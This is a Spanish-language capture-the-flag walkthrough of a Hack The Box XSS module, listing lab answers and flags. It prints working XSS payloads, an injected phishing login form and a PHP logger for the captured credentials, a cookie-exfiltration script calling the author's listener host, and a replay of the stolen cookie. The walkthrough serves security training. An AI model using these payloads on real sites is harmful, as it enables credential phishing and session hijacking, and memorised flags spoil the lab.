# Cross-Site Scripting (XSS)

## XSS Basics

### Stored XSS

¿Cuando ocurre un Stored XSS?

>Ocurre cuando un atacante logra inyectar un script malicioso (generalmente JavaScript) directamente en la **base de datos** o servidor de una aplicación web.

>A diferencia de otros tipos de XSS, este es el más peligroso porque el código dañino se queda guardado de forma permanente.


1. **To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.** 

```
<script>alert(document.cookie)</script>
```

El código `document.cookie` es una propiedad de JavaScript que se utiliza para **leer o escribir las cookies** asociadas a la página web en la que te encuentras en ese momento.

<p align="center"> 

</p>

answer: **HTB{570r3d_f0r_3v3ry0n3_70_533}**

### Reflected XSS

¿Cuando ocurre un Reflected XSS?

>Ocurre cuando el script malicioso no se guarda en el servidor, sino que viaja en la petición (generalmente en la URL) y el servidor lo "rebota" o "refleja" inmediatamente en la pantalla de la víctima.

>Es el tipo de XSS más común y requiere que el atacante engañe al usuario para que haga clic en un enlace manipulado.

1. **To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.**

```
<script>alert(document.cookie)</script>
```

<p align="center"> 

</p>

answer: **HTB{r3fl3c73d_b4ck_2_m3}**

### DOM XSS

¿Cuando ocurre un DOM XSS?

>Ocurre cuando el código malicioso se ejecuta completamente en el **navegador del usuario (lado del cliente)**, sin que el servidor web llegue a enterarse o a procesar el script dañino.

>La vulnerabilidad existe porque los scripts legítimos de JavaScript de la propia página web toman datos de una fuente insegura controlada por el usuario (como la URL) y los introducen directamente en el **DOM** (el mapa interno de la página) de una manera poco segura.

1. **To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.**

```

```

- **``**: Es la etiqueta HTML estándar que se usa para mostrar una imagen en una página web.
- **`src=""`**: Es el atributo que le dice al navegador dónde buscar la imagen. Al dejarlo vacío (o poner una ruta falsa como `src="x"`), el navegador intentará cargar la imagen, pero **fallará inmediatamente** porque no hay ninguna imagen real ahí.
- **`onerror=`**: Este es un **controlador de eventos** (event handler) de JavaScript. Su función es activarse automáticamente si la imagen no se puede cargar correctamente. Como pusimos un `src` vacío, el navegador genera un error y salta directamente a ejecutar lo que esté dentro del `onerror`.
- **`alert(document.cookie)`**: Es la acción maliciosa que se ejecuta cuando salta el error. Como vimos antes, esto hace que el navegador lea tus cookies de sesión y las muestre en una ventana emergente en la pantalla.

<p align="center"> 

</p>

answer: **HTB{pur3ly_cl13n7_51d3}**

### XSS Discovery

1. **Utilize some of the techniques mentioned in this section to identify the vulnerable input parameter found in the above server. What is the name of the vulnerable parameter?**

```
git clone https://github.com/s0md3v/XSStrike.git
```

>**XSStrike** es una herramienta avanzada de seguridad informática, escrita en Python, diseñada específicamente para el **descubrimiento y explotación de vulnerabilidades XSS** (Cross-Site Scripting).

>A diferencia de otros escáneres que solo prueban una lista fija de comandos (_payloads_) hasta que alguno funciona, XSStrike analiza la respuesta de la página web y **genera un comando a la medida** para romper la seguridad del sitio.

Activamos el entorno virtual para poder instalar las dependencias del programa

```
python3 -m venv mi_entorno
source mi_entorno/bin/activate
```

Instalación de las dependencias

```
cd XSStrike
pip install -r requirements.txt
pip install --upgrade pip
```

Luego, visitamos la siguiente URL

```
http://154.57.164.75:32107/
```

Rellenamos el Registro. A continuación, una vez registrado, tendre el siguiente url.

```
http://154.57.164.75:32107/?fullname=dani&username=dani1234&password=dani234&email=daniadani%40hotmail.com
```

Usaremos la herramienta xxxstrike.py que acabamos de configurar.

<p align="center"> 

</p>

answer: **email**

2. **What type of XSS was found on the above server? "name only"**

Podemos encontrar la respuesta en la última imagen

answer: **Reflected**

## XSS Attacks

### Phishing

1. **Try to find a working XSS payload for the Image URL form found at '/phishing' in the above server, and then use what you learned in this section to prepare a malicious URL that injects a malicious login form. Then visit '/phishing/send.php' to send the URL to the victim, and they will log into the malicious login form. If you did everything correctly, you should receive the victim's login credentials, which you can use to login to '/phishing/login.php' and obtain the flag.**

Visitando la siguiente URL: http://10.129.25.109/phishing/

Escribimos el siguiente comando si hay un **XSS**

```
'><script>alert("XSS testing");</script>
```

<p align="center"> 

</p>

En esta pagina hay **XSS**

Vamos a preparar un phishing, el siguiente comando trata básicamente de crear un inicio de sesión con su usuario y contraseña pero con el ligero cambio de que la ip:puerto que aparece en el comando es de nuestra kali, ya que queremos confudir al sistema y me mande las credenciales.

```
document.write('<h3>Please login to continue</h3><form action=http://10.10.15.179:8080><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

Tras el comando lanzado, se creo la siguiente url creada.

```
http://10.129.25.109/phishing/index.php?url=document.write%28%27%3Ch3%3EPlease+login+to+continue%3C%2Fh3%3E%3Cform+action%3Dhttp%3A%2F%2F10.10.15.179%3A8080%3E%3Cinput+type%3D%22username%22+name%3D%22username%22+placeholder%3D%22Username%22%3E%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22Password%22%3E%3Cinput+type%3D%22submit%22+name%3D%22submit%22+value%3D%22Login%22%3E%3C%2Fform%3E%27%29%3B
```

<p align="center"> 

</p>

Aunque sale al final con ');'>, escribiremos el siguiente comando para eliminarlo.

```
'><script>document.write('<h3>Please login to continue</h3><form action=http://10.10.15.179:8080/><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script><!--
```

<p align="center"> 

</p>

Así quedaría el nuevo phishing.

La nueva url:

```
http://10.129.25.109/phishing/index.php?url=%27%3E%3Cscript%3Edocument.write%28%27%3Ch3%3EPlease+login+to+continue%3C%2Fh3%3E%3Cform+action%3Dhttp%3A%2F%2F10.10.15.179%3A8080%2F%3E%3Cinput+type%3D%22username%22+name%3D%22username%22+placeholder%3D%22Username%22%3E%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22Password%22%3E%3Cinput+type%3D%22submit%22+name%3D%22submit%22+value%3D%22Login%22%3E%3C%2Fform%3E%27%29%3Bdocument.getElementById%28%27urlform%27%29.remove%28%29%3B%3C%2Fscript%3E%3C%21--
```

A continuación, en el fichero **tmp** crearemos una carpeta llamada **tmpserver**

```
mkdir /tmp/tmpserver
cd /tmp/tmpserver
nano index.php 
```

Dentro del archivo **index.php** escribimos el siguiente código, ten en cuenta que la ip que aparece tiene que ser exactamente la misma que usamos cuando creamos el phishing

```bash
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
$file = fopen("creds.txt", "a+");
fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
header("Location: http://10.10.15.179:8080/phishing/login.php");
fclose($file);
exit();
}
?>
```

Luego abrimos un servidor php

```
sudo php -S 0.0.0.0:8080
```

<p align="center"> 

</p>

Al activarlo, solo nos aparecerá esto, luego nos iremos a la siguiente URL:

```
http://10.129.25.109/phishing/send.php
```

<p align="center"> 

</p>

Y dentro escribiremos la URL del phishing que cree

```
http://10.129.25.109/phishing/index.php?url=%27%3E%3Cscript%3Edocument.write%28%27%3Ch3%3EPlease+login+to+continue%3C%2Fh3%3E%3Cform+action%3Dhttp%3A%2F%2F10.10.15.179%3A8080%2F%3E%3Cinput+type%3D%22username%22+name%3D%22username%22+placeholder%3D%22Username%22%3E%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22Password%22%3E%3Cinput+type%3D%22submit%22+name%3D%22submit%22+value%3D%22Login%22%3E%3C%2Fform%3E%27%29%3Bdocument.getElementById%28%27urlform%27%29.remove%28%29%3B%3C%2Fscript%3E%3C%21--
```

y nos aparecerá lo siguiente:

<p align="center"> 

</p>

Credenciales --> **admin**:**p1zd0nt57341myp455**

Visitamos la siguiente url 

http://10.129.25.109/phishing/login.php

<p align="center"> 

</p>

e ingresamos con las nuevas credenciales obtenidas.

answer: **HTB{r3f13c73d_cr3d5_84ck_2_m3}**

### Session Hijacking

1. **Try to repeat what you learned in this section to identify the vulnerable input field and find a working XSS payload, and then use the 'Session Hijacking' scripts to grab the Admin's cookie and use it in 'login.php' to get the flag.**

```
http://10.129.25.109/hijacking
```

Rellenamos el formulario de forma completa

<p align="center"> 

</p>

Una vez rellenado y enviado, nos saldrá lo siguiente

<p align="center"> 

</p>

Ahora bien para comprobar si nos coge algun peticion de nuestra url tenemos que montar nuestro propio servidor

```
mkdir /tmp/tmpserver
cd /tmp/tmpserver
nano index.php
```

y el contenido del index.php sería:

```bash
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Por otro lado, tenemos que tener preparado el siguiente script.js. La ip que aparece es de nuestra kali

```bash
new Image().src='http://10.10.15.179/index.php?c=' + document.cookie;
```

Por último, activamos el puerto de escucha

```
sudo php -S 0.0.0.0:80
```

Volviendo a la pagina de registro:

<p align="center"> 

</p>

En el apartado **Profile Picture URL**. Escribimos el siguiente comando:

```
"><script src=http://10.10.15.179/script.js></script>
```

Una vez enviado, y activado el puerto de escucha, capturaremos las cookies de la sesión

<p align="center"> 

</p>

Cookie de las sesión: **c00k1355h0u1d8353cu23d**

Para conseguir la flag de la pagina haremos el siguiente script:

```bash
import requests
url = "http://10.129.234.166/hijacking/login.php"
cookies = {"cookie": "c00k1355h0u1d8353cu23d"}

r = requests.get(url, cookies=cookies, timeout=10)
print(r.status_code)
print(r.text[:500])
```

Guardaremos el archivo como **app.py**, le daremos permiso de ejecución.

```
chmod +x app.py
python3 app.py
```

<p align="center"> 

</p>

answer: **HTB{4lw4y5_53cur3_y0ur_c00k135}**

## Skills Assesments

### Skills Assessment

1. **What is the value of the 'flag' cookie?**

Visitamos la siguiente URL:

```
http://10.129.234.166/assessment/index.php/2021/06/11/welcome-to-security-blog/
```

En el siguientes campos, realizamos las siguientes pruebas por si alguno es vulnerable:

```
"><script src=http://10.10.15.179/comment></script>
"><script src=http://10.10.15.179/name></script>
"><script src=http://10.10.15.179/website></script>
```

<p align="center"> 

</p>

El puerto de escucha tendrá que estar activado antes de postear el comentario.

```
sudo php -S 0.0.0.0:80
```

<p align="center"> 

</p>

Descubrimos que el apartado **website** es vulnerable.

Por tanto, usaremos el mismo archivo **script.js** e **index.php**  del ejercicio anterior (**Session Hijacking**) y tener ambos archivo en la ruta **/tmp/tmpserver**. Luego en el formulario, ejecutamos en el apartado website el siguiente comando:

```
"><script src=http://10.10.15.179/script.js></script>
```

<p align="center"> 

</p>

En el puerto de escucha nos aparecerá la flag 

<p align="center"> 

</p>

answer: **HTB{cr055_5173_5cr1p71n6_n1nj4}**